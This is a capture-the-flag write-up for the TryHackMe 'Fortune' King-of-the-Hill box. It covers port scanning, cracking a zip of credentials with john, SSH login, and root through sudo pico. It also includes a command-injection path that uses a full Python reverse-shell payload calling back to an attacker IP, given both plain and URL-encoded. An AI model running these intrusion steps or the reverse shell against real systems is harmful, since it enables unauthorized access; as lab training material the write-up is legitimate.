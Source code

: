 # Fortune.THM - Koth 

as koth is an intensive competition on flags and king declerations it is naturaly a good practice to scan a bunch of things at ones. some what of a fuzzing for entries... in real life this type of stratagy is very loud so don't mimic anything from here this is nat practical at all

### enum
```bash
nmap fortune.thm -p- 
nmap fortune.thm -sV -sC 
nmap fortune.thm 
```
we got a lot of ports lets go for port 3333

### netcat
ill try to use netcat to see what's on the other side

nc fortune.thm 3333

I Got an encoded string... 
I pretty sure it's base64


```bash
nc fortune.thm 3333 | base64 -d
```

i get an output with a "magic byte" = PK
PK is the zip magic byte and every zip file is and shuld have PK at the start of the file.
In addition we can see a file name in the output called "creds.txt". this is defenetly a zip file...
lets save this output as a file

```bash
nc fortune.thm 3333 | base64 -d > test.zip
unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
```

looks like this file has a password, john is my man for the job!

### Meet my friend John.
creat the john file format with zip2john and then send it to john
```bash
zip2john test.zip > hash.txt
john hash.txt
unzip test.zip

unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
replace creds.txt? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
 extracting: creds.txt               
```

now that we have our password to the zip file we can unzip and see what contain the creds.txt file
```bash
cat creds.txt
```
we found a use named "fortuna" and his password "**********"

```bash
ssh fortuna@fortune.thm
password:
```

and we are in!
```bash
sudo -l
```
we can see that we are indeed in the sudoers file but we can only run pico as sudo
lets go to https://gtfobins.github.io/ to see what pico can do for us

so i got the shell type b 'exploit'

we run 
```bash
pico -s /bin/sh
```

we type in the text editor "/bin/sh"
and then we will ^T (CTRL + T) to execute out command

and it works just fine Although I think a stable shell can be helpful here and in KOTH in general look here to learn more "https://www.youtube.com/watch?v=f2aSXGbD0NE"


## method b if password has changed / we are no longer a sudo user

try to do somthing like

```bash
cd /home
while True; do bash ./lucky_shell
```

this binery is just an exploit on the system and we can run it until we get a root shell


If you are locked out from fortuna

```
gobuster dir -w ~/Desktop/wordlistex2.txt -u http://fortune.thm
```
found _style and a message within saying something about the luck paramater... so i just gave it a luck paramater...

fortune.thm/_style/?luck=ls

and sure enoght it works! well.. not on the first try
most of the time this will fail but in some cases the command will execute...
lets check if python is around

```html
fortune.thm/_style/?luck="python -c 'print(1)'"
```
and it is!
kali:
nc -nlvp 1234

payload:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MYIP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

poc:
```html
http://fortune.thm/_styles/?luck=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22MYIP%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

and the rest is the same!